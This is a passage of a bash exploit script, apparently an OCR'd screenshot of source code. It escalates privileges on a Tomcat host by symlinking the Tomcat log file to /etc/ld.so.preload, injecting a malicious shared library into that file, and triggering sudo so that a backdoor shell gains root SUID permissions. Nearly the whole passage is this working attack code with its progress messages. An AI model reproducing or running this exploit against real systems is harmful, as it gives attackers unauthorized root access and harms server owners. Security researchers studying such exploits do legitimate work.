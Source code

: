     # Symlink the log file to ld.so.preload
    rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG
    if [ $? -ne 0 ]; then
        echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
        cleanexit 3
    fi
    echo -e "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"

    # Wait for Tomcat to re-open the logs
    echo -ne "\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart..."
    echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)
     "
    while :; do 
        sleep 0.1
        if [ -f /etc/ld.so.preload ]; then
            echo $PRIVESCLIB > /etc/ld.so.preload
            break;
        fi
    done

    # /etc/ld.so.preload file should be owned by tomcat user at this point
    # Inject the privesc.so shared library to escalate privileges
    echo $PRIVESCLIB > /etc/ld.so.preload
    echo -e "\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`"
    echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
    echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"

    # Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
    echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
    sudo --help 2>/dev/null >/dev/null

    # Check for the rootshell
    ls -l $BACKDOORPATH | grep rws | grep -q root
    if [ $? -eq 0 ]; then 
        echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
        echo -e "\n\033[94mPlease tell me you're seeing this too ;)
      \033[0m"
    else
        echo -e "\n[!] Failed to get root"
        cleanexit 2
    fi
